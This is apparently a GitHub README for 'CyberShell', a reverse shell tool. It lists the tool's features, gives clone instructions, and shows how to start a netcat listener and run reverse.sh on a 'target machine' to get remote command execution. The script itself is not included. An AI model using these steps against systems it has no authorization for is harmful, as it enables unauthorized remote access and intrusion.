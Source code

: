 # 🚀 CyberShell: A Powerful Reverse Shell Tool

**CyberShell** is a cutting-edge reverse shell tool designed for cybersecurity professionals, penetration testers, and developers. It allows you to remotely execute commands on a target machine, making it an essential tool for both offensive and defensive security operations.

---

## 🌟 Features

- **Remote Command Execution**: Execute commands on a remote machine seamlessly.
- **Cross-Platform Support**: Works on Windows, Linux, and macOS.
- **Lightweight and Fast**: Minimal resource usage for efficient operations.
- **Customizable**: Easily modify the code to fit your specific needs.
- **Educational**: Perfect for learning about networking and cybersecurity.

---

## 🛠️ Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/Midohajhouj/CyberShell.git
   cd CyberShell
   ```

2. put the script on target machine

    
## 🚦 Usage

1. Start the listener on your machine:
   ```bash
   nc -lvnp 9001
   ```

2. Execute the reverse shell script on the target machine:
   ```bash
   ./reverse.sh <your-ip> 9001
   ```

3. Enjoy remote command execution!

---

## 📜 License

This project is licensed under the MIT License. See the LICENSE file for details.

---

## 🤝 Contributing

Contributions are welcome! Please read the CONTRIBUTING.md file for guidelines.

---

## 🙏 Acknowledgments

- Inspired by various cybersecurity tools and techniques.
- Thanks to the open-source community for their contributions.

--- 

#### *<p align="center"> Coded by <a href="https://github.com/Midohajhouj">LIONMAD</a> </p>*

